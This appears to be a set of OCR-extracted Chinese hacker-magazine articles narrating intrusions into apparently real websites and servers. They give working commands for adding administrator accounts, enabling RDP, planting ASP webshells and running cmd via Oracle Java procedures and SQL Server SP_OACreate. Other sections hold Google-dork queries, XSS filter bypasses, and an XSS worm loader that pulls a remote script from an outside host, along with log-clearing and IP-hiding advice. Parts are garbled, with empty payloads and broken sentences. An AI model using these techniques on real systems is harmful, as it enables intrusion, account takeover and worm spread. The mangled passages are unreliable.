本以为规避了 dba 权限的用户，远程连接终究被权限限制死了，但是当我以 dba 身份登录时却出现如图 8 所示。百度了下，不知道是服务器脚本中的问题，还是由于服务端设置的问题，一时不好解决。此时先用 normal 方式登录，连接成功后，再以 dba 权限设置到匿名权限能够访问的那种。毕竟 Oracle 不支持 xp_cmdshell 直接执行系统命令，但至少可以通过建立 Java 存储过程来执行命令。然后进行测试，发现与前述示例相同，执行 sqlplus 进行 `call dbms_java.grant_permission('REBEYOND','java.io.FilePermission','c:/a.txt','read','write');`，再以 cmd 打开 sqlplus（Oracle 客户端已安装）。输入 `sqlplus /nolog`，然后输入 `connect rebeyond/rebeyond@...(descriptor=(address_list=(address=(protocol=tcp)(host=211.154.103.15)(port=1521)))(connect_data=(SERVICE_NAME=ORCL)))`。这里不是那么好执行，似乎需要先拿到可执行命令，创建 Java 存储过程后再执行系统命令。其实这一过程并不顺，往往先创建一个对象，似乎够难点，满足创建、使用，到最后发现还是需要 shell 来配合，然后再执行 OS commands。最后才发现 shell 最不爽，如果遇到需要交互的命令会卡死，我也没办法。换成 shell 后，做 tasklist，发现 ftp.exe。


确定对方不能连接外网，可能有防火墙或软件进行了设置，于是手工在服务端操作，打个 systeminfo 命令看下系统，果然是 2003。打开新建的程序后会弹出 3389，执行 `exec : x = RUN_CMD('net user')` 结果不行，改后执行成功，再执行 `exec : x = RUN_CMD('net user rebeyond rebeyond /add&net localgroup administrators rebeyond /add')`。下面用 reg 命令查看 3389 的状态和属性，执行 `exec : x = RUN_CMD('reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"')`。发现 DenyTSConnections 值为 1，说明 3389 关闭，手头执行以下命令开 3389：

```bat
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

为方便做测试，所以加载了几个参数，指定后运行 mstsc 连接，结果令人吐血，能连上但是却没有登录窗口，提示说什么“0warning.dll 该映像文件不是在所选操作系统版本”。猜测可能把 3389 用到了 dll 组件的问题，虽然系统可运行，但无法登录，看来估计得进行权限提权。于是看了一下系统，果然发现把权限开放了，最后再去尝试与 telnet 服务相关，发现服务是关闭的，还是遇到了问题，接下来需要通过 REG 启动 Telnet 服务来试试。


## 三、柳暗花明

shell 执行了 `rundll32.exe user.exe,restartwindows`，不一会全机重启，成功开启了 telnet，执行下面的 telnet 连接到了！但是很快发现权限限制。右键文件，发现 5632，正常使用权限的人应该很难定位 pcAnywhere 的默认 5632，但它是怎么跳转到后台呢？因为不能连接外网，所以直接把 cif 文件写一个可执行文件，发现 there is no way to go。于是找到一个 webshell，在 telnet 里执行 `echo "<?eval(request("#"))?>" > d:\site\guestbook.asp`。


## 巧用 Telnet 做后门和跳板

访问成功，然后用海洋一句话提取大马成功，如图 11 所示，跳转到 pcAnywhere 的 cif 文件目录下找 cif 文件并破解，巧得到了 pcAnywhere 的密码，如图 12。到这里基本就结束了。但是同样道理还是不尽心，于是还是想用 3389。到百度搜索原因，发现是 3389 和 pcAnywhere 协议冲突的原因，并找到了解决办法，删除某个注册表项就搞定了。在 pcAnywhere 操作成功后，指定配置服务器，连接对方 3389，终于看到了熟悉的登录界面，顺利登录成功。如图 13。至此整个远程管理就结束了！写了下日志，修补了下漏洞！闪人！睡觉！


Java 存储过程代码已收录在本期光盘。

编辑点评：

我对 Oracle 注入不熟悉，接触得不多，基本上也就是用工具去跑几个后台登录之类的，这篇文章让我学习到了很多关于手工注入的知识。大家也可以结合前面学的《Oracle Web 环境建立技术》（http://www.xfocus.net/articles/200803/971.html）来参考这篇文章。

本文可以详细了解 Telnet 会话的用法。

Telnet 是传输控制协议/因特网协议（TCP/IP）网络（例如 Internet）的登录和仿真程序。它最初是由 ARPANET 开发的，但是现在它主要用于 Internet 会话。它的基本功能是允许用户登录进入远程主机系统。Telnet 服务虽然也属于客户机/服务器模型的服务，但它更大的意义在于实现了基于 Telnet 协议的远程登录（远程交互式计算机）。Telnet 一方面可以为用户在远程计算机外提供访问，另一方面它也经常代替电话作为用户计算机系统的外部文本终端，为远程计算机控制。分时系统允许多个用户同时使用一台计算机，为了保证系统的安全性和私密性，系统要求每个用户有单独的帐号作为登录标识，然后必须使用个人的一个口令。用户在使用该系统之前要先输入标识符和口令，这个过程称为“登录”。登录是指用户使用 Telnet 来进入远程主机。用户成功登录后，该进程开始作为一个子命令的命令会话，直到用户退出或者远程主机关闭它。

使用 Telnet 协议进行远程登录时需要满足以下条件：

- 在本地计算机上必须安装有包含 Telnet 协议的客户端程序；
- 必须知道远程主机的 IP 地址或者域名；
- 必须知道远程主机的登录标识与口令。

Telnet 远程登录服务分为以下 4 个过程：

- （1）本地与远程主机建立连接。该过程实际上就是建立一个 TCP 连接，用户必须知道远程主机的 IP 地址或者域名；
- （2）请求远程主机确认本地的用户口令及以后合适的任何命令行参数，NVT（Net Virtual Terminal）将会被传送到远程主机。由于本地所处的系统使用不同的字符集，因此 NVT 起到了一个转换的作用；
- （3）将远程主机输出的 NVT 格式数据转化为本地所使用的格式并返回本地，由本地输入命令并由命令行控制终端，输入命令后，用户可以直接控制该远程系统；
- （4）该过程是发送一个 TCP 连接。

Windows 2000 以及后续 Windows 版本都自带了 Telnet 客户机和服务器程序。Telnet.exe 是客户端程序（Client），tlntsvr.exe 是服务器程序（Server），同时它还提供了 Telnet 服务管理程序 tlntadmn.exe。Windows 2000 默认安装了 Telnet 服务，但是并没有默认启用它。下面就介绍如何操作 Telnet 服务以及修改注册表的值，在远程服务器上启用后做跳板。

### 一、设置并启动 Telnet 服务

在 DOS 中运行“services.msc”命令打开服务管理器，找到“Telnet”服务后，双击打开，单击“启动”按钮，将 Telnet 服务启动，并更改该服务的启动类型为“自动”。

### 二、使用 Telnet 客户端登录远程主机

在 DOS 提示符下使用 `telnet 218.*.*.*`。登录到远程 Telnet 服务后，由于在服务器端没有修改注册表中的 NTLM 值，因此会出现图 2 所显示的提示，如图 2。


说明：

- （1）NTLM 身份验证选项，默认值是 2。为“0”表示不使用 NTLM 身份验证；为“1”表示先尝试 NTLM 身份验证，如果失败，再使用用户名和密码；为“2”表示只使用 NTLM 身份验证。
- （2）Telnet 服务管理程序 tlntsvr 的启动项默认值是“23”，可以通过 Telnet 服务管理程序更改其默认端口值。
- （3）早期的 SMB 协议中定义了认证令牌，后续出现的“LAN Manager Challenge/Response”验证机制，简称 LM。在多台计算机登录系统中，其信息格式被定义在 Windows NT 及其以后版本中，即 NTLM。现在已经更新到 NTLMv2 以及 Kerberos 验证体系。在 Telnet 中 Windows 默认采用 NTLM 认证。
- （4）NTLM 工作流程：客户机首先在本地向当前用户密码或缓存密码发起验证，客户端向服务端给出自己的账号，服务器产生一个随机数发送给客户端作为一个 challenge（挑战）；客户端将应用程序的密码和 challenge 结合，生成一个 response（响应），服务器把 response 交给控制器进行相应的用户密码校对，然后便可登录。这里还通过另一个随机数生成 challenge，响应的 response 经过验证后，将认证通过。用户成功登录后，控制器里面会生成自己的帐号，此时若使用 telnet 登录管理程序进入系统可看到其运行。

### 三、使用 Telnet 服务管理程序更改设置

在成功登录后，运行“tlntadmn”命令，如图 3 所示，点击“修改”按钮，重新设置“显示”或修改注册表设置。


## Telnet 服务器管理程序中的五个输入选项

说明：

- （1）在 Telnet 服务器管理程序中还有其它五个输入选项：输入“0”退出管理程序，输入“1”列出当前用户，输入“2”结束一个用户的会话，输入“4”开始服务，输入“5”停止服务。
- （2）在 Windows XP 中不能使用 Telnet 服务器管理程序直接进行管理，只能通过命令行方式进行管理，输入“tlntadmn /?”可以查看其详细帮助。
- （3）修改注册表中的 NTLM 值。如图 4 所示，在菜单中选择“7”，接着输入“y”确认修改，然后输入“0”以及输入“y”确认修改，最后输入“0”退出当前菜单。


说明：

- （1）本案例是在控制对方计算机的情况下，特别是开启了远程终端的情况下，通过这种方式比较简单；其实还有其它两种方式，比如使用 OpenTelnet.exe（需要管理员权限且开启 IPC 管道）以及使用 RTCS 脚本（需要密码和 IPC 管道）。
- （2）OpenTelnet 的具体使用方式为：“OpenTelnet.exe \\server username password NTLMAuthor telnetport”，其中 NTLMAuthor（格式为大写）值填 0 或 1。
- （3）RTCS.vbe 脚本的使用方式为：“cscript RTCS.vbe targetIP username password NTLMAuthor telnetport”，RTCS.vbe 代码如上。

```vbscript
on error resume next
set outstream=wscript.stdout
if (lcase(right(wscript.fullname, 4))<>".exe") then
  set objShell=wscript.createObject("wscript.shell")
  objShell.run("" & wscript.fullname & " //nologo " & chr(34) & wscript.scriptfullname & chr(34))
  wscript.quit
end if

if wscript.arguments.count<5 then
  usage()
  wscript.echo "Not enough parameters."
  wscript.quit
end if

ipaddress=wscript.arguments(0)
username=wscript.arguments(1)
password=wscript.arguments(2)
ntlmvalue=wscript.arguments(3)
port=wscript.arguments(4)
if not isnumeric(ntlmvalue) or ntlmvalue<0 or ntlmvalue>2 then
  usage()
  wscript.echo "The value of NTLM is wrong."
  wscript.quit
end if

if not isnumeric(port) then
  usage()
end if
```

- （4）通过 Telnet 服务器管理程序修改注册表的值后需要重启计算机才能使修改生效。

## 五、登录远程 Telnet 服务器

使用“telnet ip”命令再次登录远程 Telnet 服务器，如图 5 所示，输入该 IP 地址的管理员用户名和密码，验证通过后进入 Telnet。


说明：

- （1）登录 telnet 成功后，telnet 客户端就如同在本地的 DOS 提示符下操作一样，可以执行各种命令，如图 6 所示，可以查看网络连接情况。
- （2）使用多重 telnet 可以达到隐藏自身 IP 的目的，也就是常说的代理功能，也就是先联入第一个 Telnet 服务器，然后在第一个 Telnet 服务器上再联入第二个 Telnet 服务器，再联入第三个 Telnet 服务器，依次联入很多个 Telnet 服务器，这样就不容易被发现。
- （3）使用 Telnet 作为后门时可以更改 telnet 的默认端口 23 为其它端口，这样就更隐蔽了。修改端口后，还可以更改 Telnet 的服务名称。
- （4）有的路由器的 telnet 端口也开放了，如果知道其用户名和密码，将其作为跳板，效果非常好。


到此一个简单的 Telnet 后门和跳板也就制作成功了，以后就可以使用 Telnet 作为后门来执行各种操作。

> 编辑点评：
> 案例中的一些关于 telnet 后门从原理到具体操作的文字，在 SQL Injection 成为攻击之武器之前，这样的文章是很受欢迎的。虽然现在多重入侵工具的出现大大降低了账号的门槛，N 多事仍有 N 多的多样化选择，使用不到 telnet 了，但我总是觉得你的东东还不算老吧。


## 无聊的邮箱跨站外加创新玩法

从本文你可以学习到一些跨站的小技巧。

## 一、三个邮箱系统跨站的测试

### 1. 邮箱跨站之 tom

开始测试，编写源文件发邮件给 mail.tom.com，首先发空 ```，查看源文件，变成 ``，测试 ``，结果变成 `</iframe>')">`，再测试 ``，被过滤成 ``。总结一下，关键字 javascript 被改成 java-script，关键字 onerror 被改成 xnerror，关键字 expression 却没有被过滤掉。tom 不过滤 expression，较少见，看来写法上的某些“特征码”可以用来绕过过滤。后来由于一个邮件服务商或邮件解析导致“特征码”改成了一行，这使得文本中的 `&#xx` 变成了 `#xx` 形式，编码以后也没啥用处。


看表明 tom 并没有过滤 `&#xx` 编码形式的字符。看上面被过滤的代码 ``，把它里面的 `script` 改造一下。改成 ``，在本地试了一下，这代码完全被执行了。某些表达式函数仍然不执行，这个代码却是完全实用。既然 expression 没有过滤掉，为什么不直接用这个表达式？文章中提到可通过使用各种空白字符的变换来构造 `java-script`、`javascript` 等形式绕过。

在 `javascript` 中还有一个对跨站很重要的函数 insertAdjacentHTML，我们曾经从 mail.tom.com 里边收到了一个测试邮件，包含如下代码：

```html
</iframe>')">
```

通过内嵌一个页面成功插入了 iframe，说明存在跨站执行的可能。再者通过编码混淆，过滤器可能无法识别这些 payload。

另一封邮件服务商的测试中，发现 `</iframe>')">` 竟然可以执行了，如图 5 所示。前天试的时候很明显不行，奇怪。


## 二、邮箱跨站之创新玩法

再来一条 ``，这样关闭弹出的窗口后，每 5 秒又会再弹出来，真是气死我也。哈哈，也可用 `<body style=arugamama:expression(onmousemove=function(){alert('你是猪')})>`（供参考，没有测试），再来一条 `<body style=arugamama:expression(onmousemove=function(){open('http://www.baidu.com')})>`，这样只要一移动，立即让 IE 页面弹出窗口。或者发送一条 `window.onload=...` 的“响响响”的声音（即上传弹窗的声音），像电话一样，一样能让目标页面失去控制。最后再写一条 `location='http://www.baidu.com'; alert('欢迎来到我的网站做客');`，这样就能对付网站狗了。

## 三、结尾

创新玩法也没什么创新的，只是觉得好玩的 javascript 代码。

最贴近恶作剧的代码如 ``、`<iframe src=http://www.baidu.com>` 等，多用于邮箱、网页跳转与弹窗演示。由于图片中大量示例为网页截图与代码嵌入，以下仅按版面中的主要内容提取。


## 对“步步低”官方网站的检测

从本文你可以学习到利用 SP_OACreate 执行命令的 SQL 语句。

前几天，我新买了一个“步步低”的电子词典，感觉很不错。于是我决定到“步步低”的网站查看是否跟它的词典一样强大。

在 Google 里搜索关键词“步步低”，很快就有了一堆有关“步步低”的网站，我打开了它的官方网站：http://www.xxx.com/（如图 1），做得很漂亮啊，会不会有漏洞呢？这时，我发现了这个链接：http://www.x.x.x.com/productsinfo_j.asp?id=672&pid=27（如图 2），一个邪恶的念头在我的脑子里冒出一个对话框：为什么不在 URL 后面加一个“'”号？于是我在这个 URL 后面加了一个“'”号：http://www.xxx.com/productsinfo_j.asp?id=672&pid=27'，返回了：“请不要提交非法字符”，看来是做了防注入（如图 3）。这条路不成功了，这时我发现它有一个产品搜索的功能（如图 4），会不会存在搜索型注入呢？于是，我在搜索那里输入 333'，然后点击搜索，结果还是不成，搜索框里也防注入了。这可怎么办呢？我陷入了沉思……

这时，我灵机一动，既然你没有漏洞，我就不信和你同一主机的其他网站没有漏洞？于是打开 http://www.seologs.com/ip-domains.html（我常用的一个查同 IP 网站的网站），然后输入“步步低”的网址，等了一会……出来了！（如图 5）上面有 12 个站点，一个一个尝试吧……在我尝试到 http://finish.whir.net.cn/vol1，发现了一个注入点：http://finish.whir.net.cn/rolei/2006/newsinfo.asp?id=63（如图 6）。我把它拉到 HDSI 里面，HDSI 竟然说是 SA 权限！（如图 7）不过我并没有高兴太早，因为有可能并不是 SA 权限，即使是 SA，如果管理员在 net.exe 和 net1.exe 做了限制的话，我们还是无法执行加用户命令的（至于为什么不通过 CMD 去操作，后会介绍到），于是我先找到目录，找到网站的路径再说……

F 盘里我找到了这个网站目录：`F:\FinishWeb\rolei\2006`，然后我是用备份数据库的方法拿到了一句脚本可执行的 shell（图 8），打算通过它来上传 shell，但是失败了，无法上传文件。这可怎么办呢？这时我想，既然你这里上传不了文件，那么我就去你的后台上传一个后缀为 jpg 的文件，然后再通过一句话木马，把后缀为 JPG 的文件重命名为 ASP 的文件，这样就可以得到 shell 了。我随便对着一个新闻里的图片点击了右键，选择属性，来看这个图片的网址，发现是 http://finish.whir.net.cn/rolei/2006/back/Upload/s_2007116223914556670.jpg，我感觉这个 http://finish.whir.net.cn/rolei/2006/back/ 很可能就是后台的路径，于是我打开那个网址，根本就是后台，居然就这样出现在我们面前了（图 9）。有了后台，密码对我来讲，仍旧可以通过 MSSQL 注入来解决，即使密码是 MD5，破解不开来，我们也可以通过 update 语句来解决这个问题。但是，这里我们没有用到，用户名和密码非常简单，全是：

> 编辑点评：
> 作者测试网站的几条语句还是不错的，不过我想说一下作者，不要用 IE6 了，你的成功率会高 60%，最靠谱不过了，因为 IE7 已经去掉了 img src=javascript 这样的执行方法，不过加个 onerror 之类的效果还是可以用的。


root。我会用这个密码登录后台，在后台选择“产品信息”，然后选择添加，就出现了我们非常熟悉的 eWebEditor。我尝试 eWebEditor 默认的登录页面，想从那里拿到 shell，但是默认的登录页面被删除了。不过没有关系，我们上传个 jpg 格式的就可以了。我把我的 ASP 木马重命名为 xx.jpg，然后选择上传。很快就上传成功了，并给出了网址：http://finish.whir.net.cn/rolei/2006/back/eWebEditor/uploadfile/20080309103801763.jpg，但是，当我选择这个网址进去时，却说：无法找到该网页（如图 10）。上传竟然没成功，莫非这个是传说中的伪后台么？


这时我考虑到，既然“步步低”的官方网站和这个网站在同一主机，那么数据库肯定也是在一起的，又因为是 SA 权限，那么我通过跨库来找“步步低”官方网站的密码也是有可能的。于是，经过努力的寻找与尝试，我终于发现了“步步低”官方网站的用户名和密码竟然也是 root，刚开始我还不信，当我用 root 进入的时候，竟然成功了！这时，我选择“产品数据库”，然后添加新批量产品（如图 11），这时我又发现了 eWebEditor，不过登录页面还是被删除了。然后还是上传一个被重命名为 XXX.JPG 的 ASP 木马，提示上传成功，并给出了网址：http://www.xxx.com/back/edit/uploadfile/20080309105455660.jpg，我打开网址，惊喜地发现，这回真的成功了！！（如图 12）

但是问题也随之而来，我并不知道“步步低”官方网站的绝对路径，只能通过一句语句去猜，慢慢地找。最终，我确定路径在 E 盘的 `E:\ServiceWeb\gdbk\back\edit\uploadfile\20080309105455660.jpg`，然后用一句话木马复制到指定路径，轻轻写入 `E:\ServiceWeb\gdbk\back\edit\uploadfile\20080309105455660.asp`，结果成功！（如图 13）进入 shell 后，第二个想到的就是 Serv-U 的提权，准备把提权工具上传，发现失败了，我尝试用 FTP 版的 Serv-U 提权工具，依然失败。这时，我想到，它不是 SA 权限么，我可以通过 SA 来执行命令，我直接添加个管理员不就 OK 了么？于是，我在 HDSI 里尝试执行 `net user spookzang spookzang /add`，建立一个用户名叫 spookzang 的用户，然而，信息显示该用户不存在，执行的结果我真没料到，这一行命令，它也过不了么，那我就有点怀疑数据库出问题了！在服务器重启之后，网站才能正常访问，数据库正常访问，网站开始打不开，服务器重启……莫非这是传说中的人品问题么？


这时我想，我通过 SA 注入，把一个 VBS 下载器写马上去，然后通过 SA 来执行这个 VBS。我把这个上传工具，然后选择把配置好的 VBS，把它重命名为 XXX.TXT，然后在目标位置输入 `C:\3.vbs`（这里就是服务器的路径），然后我发上传的等待，提示内容写入结束，沉思良久后！我尝试用 SA 执行，然而等了半天没反应，我把 SQL 再往上翻看，发现服务器上安装了卡巴斯基，把我的 VBS 给删除了……

我在跟 Maxi 讨论了一下，并在网上搜索了一下相关的文章，发现“心急的鱼”曾经写过一个关于 SQL 无法执行 DOS 命令的文章，里面说：虽然 xp_cmdshell 不能用，但是我们还可以用 SP_OACreate，它也能执行 DOS 命令。而“心急的鱼”给出了一段语句：

```sql
DECLARE @shell INT
EXEC SP_OACreate 'wscript.shell', @shell OUTPUT
EXEC SP_OAMethod @shell,'run',null,'C:\windows\system32\cmd.exe /c net user spookzang spookzang /add'
```


一个用户名和密码都是 spookzang 的用户。我立即用网页的 SQL 连接器连上，然后执行命令（如图 14），成功！然后再执行 3389 连接上去，成功！（如图 15）

最后总结一下：本文没有任何技术可言，完全是一种思路。希望大家在入侵的时候，不要因为一时的故障而放弃。最后感谢“心急的鱼”那篇文章和 Maxi 给予我的帮助。

编辑点评：只要改进一下，如果再熟悉些 ASP 木马，你何尝不能做得更爽呢？我不理解的是，一些“步步低”的文章，有了小马的话你再弄一个大马吗？难道请周围的 GG 站木马真的就不对了吗？对我来说，我已经全文被这篇文章认真吸引了。


## 横扫 PHP 系列之一

从本文你可以学习到  
巧妙利用搜索引擎来入侵 PHP 站点的方法

走过路过不要错过，这次 hackall 给大家带来的这个系列一定会让您感觉 PHP 入侵绝非是那么简单。大多数的网站入侵都要先发现进入点，然后才能继续下去。什么？你问能不能直接通过找回口令登录后台，或是发现某站点程序漏洞后直接利用？那是你的运气加实力，这不在本文讨论范围。如何发现注入点呢？现在检测注入点的工具尚无定论，尽管各位都有自己的方法，笔者在这就不献丑了。今天这篇文章就是从另一个角度来入侵 PHP 站点，至于工具嘛，能不用就可以不用。好了，开始进入正题。

Google Hack 一直都比较火，但是我看大家一般都用来搜注入点、后台、目录、现成的 shell。嗯，我也想到了。Google Hack 再深入一下吧，嘿嘿……口气有点大的样子，莫怪。

演示如下：根据偶的经验，PHP+WIN 的权限一般都是很大的。因此咱们可以构造以下的关键词：warning include（路径 盘符）inurl:php。至于那个路径盘符，如果你想搜 WIN 系统，可以写 c:\、d:\ 等；如果你想搜 UNIX 系统，那么就不需再填写了。

那咱们试下吧，如果像图 1 所示，看效果了吧？绝对够劲，出来了。如果你还不知道下一步，我是无能为力了。你一定想问我这个 warning include 是啥意思吗？这个嘛，就是数据库报错的关键字，跟找注入点时未闭合是一个道理。

如果你想指定一个具体的站点进行入侵，可以试着构造如下关键词：site:站点名称 warning include inurl:php。假如你使用了一个站点的主入口，而且权限是 root 的，但是怎么也找不出绝对路径，这个时候可以试下上面的方法。有的时候最好点击缓存，因为有的报错已经修复，因此只存在缓存里。

朋友们一定在网上看到过某人把 50HH、17173 等大站拿下，什么时候我们才能达到这样的境界？呵呵，那借此机会，咱们就拿几个大站点练练手吧，如图 2—13 所示，注意我查找每张图片中的搜索关键字。


大家有兴趣的可以自己去玩下，图中的那个执行命令的后门的具体代码在 http://www.hackall.org/cmd.txt 上。至于站内包含，虽然比较多，但是上传的地方少得可怜，可能是我 RP 不好的关系吧，只发现几个带论坛的，可以上传自定义头像。似乎改个后缀的 PHP 一句话木马就能搞定了，这我就不截图了（影响不好）。

上传漏洞我就拿英语四级官方的单词表站点来说吧，如图 15、图 16 所示。

PHP 入侵中，最郁闷的就是导出 shell。如果能发现几个表名，我想对导出 shell 会非常有帮助。构造关键字的时候在查询前加几个词，如 select、insert 等，如图 17 所示。


关于这个站的入侵过程已经发表过了，如果你没看过的话，可以登录 www.hackall.org，入侵过程很详细，而且是直接拿 3389。这里发张图证明下，如图 18 所示。


为了不让你觉得是在搞破坏，我把地址给删掉了，但图下真切，不相信可以自己验证下。

补充：具体我也不介绍是做什么了，看到图 19、图 20 就知道干什么用了。关键词构造如下：

`site:163.com Database error inurl:php`

看到什么了么？对了，就是表名。如果看不清，就看下面这个报错信息，原因是一样的。


再看看下面构造的搜索词，关键词如下：

`site:***.com MySQL Error inurl:php`

如图 21、图 22、图 23、图 24。图 24 是关键，看到爆出什么了？


好了，文章就先写到这里吧，这篇文字不是很多，主要举了几个例子来说明这个方法还是不错的。嗯……感觉不错的话，就请期待后续的 2 个系列。也不废话了，欢迎大家批评指正。

## 最帅的 PHP 入侵案例

从本文你可以学习到 PHP 入侵的基本方法

好久没写东西了，感觉技术都有点生了。我也忘了是出于什么目的入侵的这台机器，只记得入侵到这台机器时，思路还算不错，所以写出来与大家一起分享下。如今入侵的文章虽然比过去多，但是总觉得精品还不算太少，所以，今天给大家带来的就是一篇关于 PHP 入侵的文章。这次的目标站点是 www.**.net，因为这个网站的机器大多数都是比较大的内网，因此我在这里就不去谈别的。太讲究，也没什么必要，公开那么大的网站只是个靶子，不站在技术员高度。先看下面文章，看看这局到底什么套路。


这个站总体来说看还算不错，对某一专业的网友来说应该是个值得收藏的网站。大体上看完了这个站，下面就该看看它的安全性怎么样了。随便找了个“**.php?id=123”的地方，在末尾加了个单引号，跟我想象中的报错居然不一样，如图 2 所示。图中可能有点小，大家看不清楚，那我就分析下此网站的大概内容吧。这个报错对我们有用的地方只有 2 个，一个是 c_accesslog 表的结构，还有一个就是网站的具体路径。本来我认为这就是注入点，只要继续往下做的时候，不幸的事情发生了，如图 3、图 4 所示。


id=123 这样的格式我都碰到过了，都出现这样的情况，也就是说这个站没有太明显的注入漏洞。怎么想，作者用的就是注入漏洞，怎么会没有呢？我想决定是不是页面本身的问题，于是把在浏览器中看到的信息一点点找出来，最后发现这里的站点用的是个简单的 accesslog 数据表，而 c_accesslog 表的结构也是很普通的。最关键的是这个数据表中记录了很多请求内容，可以直接看请求的内容，找到被访问的页面。再继续找的话，看看是否能找到能执行的地方。


看出来效果了吧？没有？我们稍后再看。大家都看出来利用方法了吧。先说说我们先前爆出来的那个表——c_accesslog，看看有什么地方能利用的。首先是 time，它是通过 JavaScript() 来获取时间，然后写进日志的；接着是 ip 和 HTTP_REFERER，都无法伪造；再看看 username、type 等字段，应该能找到其他的东西。还有 request，是你在浏览器的地址栏里提交的数据。我们先注册个账号，然后随便找个页面，在地址栏里输入：

“accesslog” 表有字段：`time`、`ip`、`HTTP_REFERER`、`userName`、`type`、`request`、`values`、`newsid`、`c_sitename`、`messages`、`u25529`、`newsContent`、`newsCount` 等。

`http://www***.net/***.php?keyword='1%')%20and%201=%20union%20select%201,2,3,4,5,request,7,8,9,10,\'12%20from%20accesslog%20where%20ip='myip%20not%20like%20'0','webroot\\root','1.php/'`


由于他开了 3389，所以我直接建了个用户，然后清理日志，走人咯。

> 编者点评：
>
> 文章里的方法有点特殊，适用于特定时机。估计在古老的站点上还有这样的漏洞，不过重点是作者的思路。

## 跨站不仅仅是 alert()

从本文你可以学习到  
如何写一个 Web 2.0 下的 XSS Worm

### 一、引子

目前所有的黑客技术中，使用频率最高的就是 XSS（Cross-Site Scripting），也就是我们常说的跨站脚本攻击（这是一个最浅显易学，也是老少皆宜的攻击手法）。从《WhiteHat Website Security Statistics Report（附录1）》这篇报告中可以看出 XSS 的普遍与其流行程度，如图 1 所示。


图 1

探究为什么会存在跨站这个问题，没什么意义，反正它就在那里，和其他漏洞一样，跨站的产生往往都是因为程序员“懒”。假如世界上第一只 XSS Worm（Samy）没有诞生的话，也不会有那么多人关注这类低门槛的攻击手法。顺便说个安全知识：当世界出现第一只 XSS Worm（Samy）的时候，跨站蠕虫的概念也就从此得以确立了。

### 二、XSS 能做什么

接下来的日子，以你的名义向你的好友们发送欺骗信息，并将这个 XSS 附植入你的空间，完成这一系列动作也许只要几秒钟。这是具有传播性质的蠕虫。

- 1. 用来篡改页面、插入不可预知的内容或者执行不可预知的脚本；
- 2. 用来实现定向攻击；
- 3. 用来形成 XSS Worm，具备传播性。

第 1 类是最普通的，往往被用在钓鱼站上，我们不能说它没技术含量，钓鱼要钓得好，那需要很深的功底。比如我们在账户登录口做 XSS 陷阱（经典的有 Gmail 登录口陷阱之类的攻击），登录后，浏览器的地址栏就会变成一个假的地址，并出现一个 cookie 信息，黑客可以在第一时间收集 cookie 信息，并且可以对某个具体的用户进行定向攻击。

第 2 类主要用来实现定向攻击，比如针对性挂马、针对性盗取数据、针对性利用等。

第 3 类的 XSS Worm 是最可恶的一类，也是对 SNS 网络的高级利用，它可以综合以上提到的各类技术手段，并具备很强的传播性质，可以在一天之内感染 SNS 网络上的百万用户。当这样的蠕虫诞生时，那么有你想不到，没有你做不到的。

## 三、校内网 XSS Worm

可惜，我的这个 ODAY 今天发现已经失效了，前几天还测试通过。ODAY 在各处并不重要，关键的是了解这个 Worm。本来我还在说要不要公开这个跨站点，结果在论坛里面，有些地方又加了这个目录。它让你自己去打开这个系统，将用于你自己的域名，或许它可以把你的网站设备锁定，然后传播。下面是一个相关的示例，先将它替换成《图 1》。

- 1. XSS 导火线

我发现校内网的日志评论区存在跨站漏洞。评论是允许 UBB 码的，唯一有价值的 UBB 码是 `[link][/link]`，这个会被服务器转换为这样的形式：`<a href=...></a>`。当这样构造 UBB 码时，链接以一个公共网页的样式存在，例如：`<a href="http://hi.baidu.com/ycosxhack" style="..."></a>`。这样，这次漏洞就可以执行 JavaScript 代码。style 属性一般是 CSS 的，不过有时我们可以在 CSS 内嵌 JS。当然有许多方法可以实现，而且要看浏览器对表达式的支持。

- 2. 实现 XSS Worm

在校内网这样典型的 SNS 网站中跨站成功后，要发起一个 XSS Worm 并不是一件困难的事。要从受控网页的隐藏区域（如用户名、头像等）以及评论中取出内容，然后把它们组合成一条新的链接。这个过程中要注意过滤、编码等问题。接下来通过远程 JS 文件的方式实现 worm 的传播，最后将代码注入到网页中。

```javascript
javascript:(function(){
  var d=document, s=d.createElement('script');
  s.src='http://evilcos.googlepages.com/x-xiaonei-worm.js';
  d.getElementsByTagName('HEAD')[0].appendChild(s);
  function inject(){
    window.x=1;
    setTimeout(function(){
      if(window.x==1) inject();
    },1000);
  }
  inject();
})();
```

这段脚本不止一个弹出框那么简单：它会在短时间内自动创建一个 `<script></script>` 标签，调用远程的 JS 文件，并把这个脚本的来源放在页面中。之后通过 DOM 的方式注入到页面中，在 `head` 标签内执行。这是 JS DOM 的最基本方式，不理解的话，多看几遍。本文不仅是为了揭露基本原理，也是在说明 `window.x!=1` 这种轮询机制可以让恶意脚本保持持续运行。

在校内网这样典型的 SNS 网络中，跨站成功后，要发起一个 XSS Worm 并不是一件困难的事。更麻烦的地方是，服务器端的过滤会让我们必须构造更加复杂的语句。要访问页面的真实内容和状态，需要结合 XMLHttpRequest 的请求与回调，甚至要把回显信息再次写回页面。远程代码的执行能够让你看到整个流程，但这只是起点。


```javascript
var x=null;
if(window.XMLHttpRequest){
  x=new XMLHttpRequest();
}else if(window.ActiveXObject){
  x=new ActiveXObject('Microsoft.XMLHTTP');
}
function new_state(){
  if(x.readyState==4){
    // 处理返回内容
  }
}
```

下面就来看看源码，代码不多，但是很经典。按注释来看：通过创建不同浏览器兼容的 XMLHttpRequest 对象，发送请求并在状态变化时处理返回结果，最后把目标内容拼接成新的数据流。整个过程体现了跨站脚本与远程代码执行结合的基本方法。

```text
[link]http://hi.baidu.com/ycosxhack?style=...[/link]
[eval](String.fromCharCode(...))
```

## 涯空安全黑客手册 2008.06 【高手专栏】

（页面主体为双栏排版，主要内容为关于 XSS Worm 的技术文章，包含多段说明文字与大量代码片段。）

```javascript
function _2(){
  var _3or7 = GET['http://blog.xiaonei.com/myBlog.do'] || null;
  // 下面省略大量与 HTTP 请求、POST 参数、Content-Disposition、boundary 相关的构造代码
}
```

```text
var pic_path='';
var blogControl=199;
argv='\r\n';
// 多段 multipart/form-data 请求头与字段拼接代码
// Content-Disposition: form-data; name="title"
// Content-Disposition: form-data; name="body"
// Content-Disposition: form-data; name="theFile"; filename="..."
```

